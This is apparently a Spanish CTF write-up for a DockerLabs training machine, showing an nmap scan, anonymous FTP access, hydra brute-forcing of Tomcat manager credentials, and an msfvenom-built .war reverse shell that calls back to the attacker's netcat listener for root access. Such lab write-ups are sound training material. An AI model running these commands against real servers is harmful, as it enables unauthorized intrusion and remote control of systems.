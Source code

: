 # Maquina -Pn

https://dockerlabs.es/
https://mega.nz/file/tS9GUawC#-b8ooIl3HEIFfEUkNRH6uA26OGJnUCQEHPSC9LBuw9w

# Desplegar el Docker

![[Pasted image 20250520151436.png]]
Ya tenemos tenemos lista la maquina.
![[Pasted image 20250520151537.png]]
TTL = 64 --> Maquina Linux/Unix

Una vez que sabemos que es una maquina Linux/Unix procedemos a ver que puertos tiene expuestos.
Para esto utilizaremos la herramienta `nmap`

`nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2`

![[Pasted image 20250520151750.png]]
Vemos los puertos:
- `21` FTP
- `8080` HTTP

Vamos a probar con el usuario `anonymoys` para el FTP.
![[Pasted image 20250520151950.png]]
Vemos el archivo `tomcat.txt`
Vamos a traerlo a nuestra maquina para poder verlo.

![[Pasted image 20250520152031.png]]
Si visitamos el puerto `8080` podemos ver Apache/Tomcat en la versión 9.0.88
![[Pasted image 20250520152153.png]]

Vamos a acceder a "manager app" y probar con las credenciales genericas, para ello vamos a hacer una busqueda rapida en google.

Encontramos un gits de github el cual nos proporciona una cuantas:
![[Pasted image 20250520152421.png]]

Para no ir una a una manualmente vamos a utilizar la herramienta `hydra` con un diccionario generado por nosotros, en este caso va a ser el `.txt` que descargamos de gist.

![[Pasted image 20250520152916.png]]
Una vez lo tenemos vamos a utilizar el siguiente comando:

`hydra -L users.txt -P pass.txt 127.17.0.2:8080 http-get /manager/html`

Ahora ya sabemos que el usuario es `tomcat` y las password `s3cr3t`
![[Pasted image 20250520153136.png]]

Ya tenemos acceso al servidor, pero nos falta conseguir acceso a la shell.
Sabemos que Apache Tomat permite hacer despliegue de aplicaciones con archivos `.war`
Estos se pueden desplegar desde el navegador o con `curl`, como ya tenemos acceso con las credenciales genericas al Web Application Manager podemos desplegar un `.war` malicioso para asi conseguir una reverse shell.

Gracias a la herramienta `msfvenom` la cual es un framework de Metasploit, se puede generar con este comando:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o exploit.war`

- `-p java/jsp_shell_reverse_tcp`
	- Especifica el payload. En este caso, se trata de una shell inversa en formato JSP (Java Server Page), diseñada para ejecutarse en un servidor que soporte Java, como Apache Tomcat.
- `LHOST=172.17.0.1`: 
	- Dirección IP del atacante. Es a donde el servidor objetivo se conectará para establecer la shell inversa.
- `LPORT=443` 
	- Puerto en el cual el atacante estará escuchando conexiones entrantes.
- `-f war`
	- Indica que el formato de salida será `.war` (Web Application Archive), compatible con el mecanismo de despliegue de aplicaciones de Tomcat
- `-o exploit.war`
	- Especifica el nombre del archivo de salida. 

Ahora tendremos que ponernos a la eschica por el puerto 443, para ello utilizaremos `netcat`
![[Pasted image 20250520163943.png]]
Y procederemos a subir nuestro `.war`
![[Pasted image 20250520164024.png]]
![[Pasted image 20250520164117.png]]

Ahora una vez que le demos click a nuestro /exploit tendremos la reverse shell en la terminal donde tengamos `netcat`
![[Pasted image 20250520164220.png]]
![[Pasted image 20250520164229.png]]
Y ya tendríamos acceso como `root`